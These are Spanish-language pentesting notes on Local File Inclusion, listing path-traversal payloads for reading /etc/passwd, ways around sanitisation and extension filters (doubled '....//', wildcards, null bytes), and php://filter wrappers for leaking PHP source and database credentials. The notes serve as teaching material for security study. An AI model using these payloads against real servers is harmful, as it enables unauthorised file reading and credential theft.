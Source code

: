 # Local File Inclusion

Cuando tenemos la opción de vulnerar un LFI  (ejemplo lo pongo después), nos podemos encontrar con restricciones.

## Sin restricción
Basta con poner el nombre del fichero que queremos leer

## Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'
```
../../../../..//etc/passwd
```

## Con '../' restringido

Pondriamos doble  '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo
```
....//....//....//....//etc/passwd
```

## Con cadenas de texto concretos restringidos

Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'
```
....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
```

Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'
```
....//....//....//....//etc/./././passwd/.
```
## Con forzado de extensiones
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

```
....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
```


# Jugando con wrappers

Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'.  y buscamos la cadena en base64. 


Si nos fijamos ```page=courses ``` hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php


![[lfi2.png]] 

Teniendo esto claro, podemos jugar con el wrapper ```
```
php://filter/convert.base64-encode/resource=
```

![[lfi1.png]] 

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:
```
php://filter/read=string.rot13/resource= 
```
y para descifrar esto, en bash:
```
tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```


Otro ejemplo mas práctico:
```
php://filter/convert.iconv.utf8-utf16/resource=
```
